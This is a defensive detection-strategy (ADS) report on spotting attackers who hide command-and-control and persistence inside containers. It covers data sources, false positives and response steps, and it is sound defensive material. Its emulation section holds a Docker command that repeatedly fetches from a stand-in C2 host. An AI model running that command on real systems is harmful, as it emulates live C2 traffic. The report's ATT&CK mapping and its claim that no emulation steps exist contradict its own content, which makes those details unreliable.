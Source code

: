 # Alerting & Detection Strategy (ADS) Report

## Goal
This detection strategy aims to identify adversarial attempts to bypass security monitoring systems by leveraging containers. Containers are often used by adversaries to obfuscate malicious activities, making them harder for traditional defenses to detect.

## Categorization
- **MITRE ATT&CK Mapping:** T1505 - Server Software Component
- **Tactic / Kill Chain Phases:** Persistence
- **Platforms:** Windows, Linux, macOS  
  [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1505)

## Strategy Abstract
The detection strategy focuses on identifying anomalous container activities that may indicate adversarial actions. Key data sources include:
- Container orchestration logs (e.g., Kubernetes)
- System and application logs
- Network traffic analysis

Patterns analyzed involve:
- Unusual or unauthorized changes in container configurations
- Anomalous network communications from containers to external endpoints
- Unexpected resource consumption by containers

## Technical Context
Adversaries may use containers to deploy persistent backdoors, execute command-and-control (C2) operations, or hide malware activities. They typically exploit configuration weaknesses and inadequate monitoring of container environments.

**Adversary Emulation Details:**
In real-world scenarios, adversaries might:
- Use known vulnerabilities in container software to gain unauthorized access.
- Deploy C2 servers within containers to maintain persistence.
  
Sample commands for emulation (test environment only):
```bash
# Start a suspicious Docker container
docker run -d --name malicious_container busybox sh -c 'while true; do wget http://malicious-server.com/c2; done'

# Inspect unusual network traffic from the container
sudo tcpdump -i eth0 host <container_ip>
```

## Blind Spots and Assumptions
- **Blind Spots:** Detection may miss sophisticated evasion techniques like encrypted C2 communications or use of legitimate cloud services for malicious purposes.
- **Assumptions:** The strategy assumes that baseline behaviors are well-defined and monitored. It also presumes network monitoring can differentiate between benign and malicious container traffic.

## False Positives
Potential false positives include:
- Legitimate containers with high resource usage during peak operations.
- Authorized changes to configurations by IT personnel or DevOps teams.

## Priority
**High:** Containers provide significant advantages for adversaries in terms of stealth and persistence, making their detection crucial. The increasing use of containerized environments across organizations amplifies this risk.

## Validation (Adversary Emulation)
Currently, no specific adversary emulation steps are available within the framework. Organizations should develop tailored scenarios based on known adversarial behaviors relevant to their environment.

## Response
When an alert is triggered:
1. **Verify Alert:** Confirm whether the detected activity aligns with recent changes or authorized actions.
2. **Isolate Container:** Temporarily isolate the suspicious container to prevent potential lateral movement or data exfiltration.
3. **Investigate Logs:** Examine orchestration, system, and network logs for further context on the anomaly.
4. **Coordinate Response:** Engage incident response teams if malicious intent is confirmed.

## Additional Resources
Currently, no additional references are available. Organizations should refer to their own security documentation and threat intelligence sources for more detailed guidance specific to containerized environments.